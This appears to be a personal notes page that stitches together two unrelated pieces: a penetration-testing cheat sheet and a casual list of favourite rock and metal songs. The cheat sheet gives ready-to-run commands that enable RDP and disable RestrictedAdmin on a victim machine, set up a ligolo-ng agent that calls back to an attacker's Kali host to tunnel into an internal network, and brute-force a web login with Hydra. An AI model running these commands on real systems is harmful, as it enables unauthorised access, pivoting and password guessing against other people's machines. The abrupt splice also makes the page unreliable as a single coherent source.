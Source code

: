 Enable RDP
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```

# ligolo - https://github.com/nicocha30/ligolo-ng
```
## Compiling
- Use the CGO_ENABLED=0 flag when building because of issues with glibc

Public network: 192.168.211.x
Internal Network: 172.16.211.x
## On Kali:
- sudo ip tuntap add user kali mode tun ligolo
- sudo ip link set ligolo up
- sudo ./proxy -selfcert

## On victim [linux]: 
- ./agent -connect 192.168.45.195:11601 -ignore-cert

## On Kali:
- sudo ip route add 172.16.211.0/24 dev ligolo
```
# Hydra
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.233.134 http-post-form "/login.php:username=admin&password=^PASS^&Submit=Login:Incorrect information"
```
- username is case sensitive...

# Tar - Encrypt / Decrypt
```
tar czvpf - ./[encdir] | gpg --symmetric --no-symkey-cache --cipher-algo aes256 -o [filename].tar.gz.gpg

gpg -d [decryptfilename] | tar -xvzf -
```


Ok so it's more than 5 but I just jumped through spotify and pulled out a bunch of songs that I absolutely love. Most I probably heard on SiriusXM and was either a one hit wonder or just a classic that's enjoyable.

Bittersweet Memories - Bullet for my valentine
Moving on - Asking Alexandria
Limits - Bad Omens
Just pretend - Bad omens
Choke - The Warning
Deafening - Solence
Neon Grave - Dayseeker
Nero Forte - Slipknot
Crooked Halos - Dragged Under
Polyamorous - Breaking Benjamin
Room to Breathe - You me at six
Everlong - Foo Fighters
Blood // Water - Grandson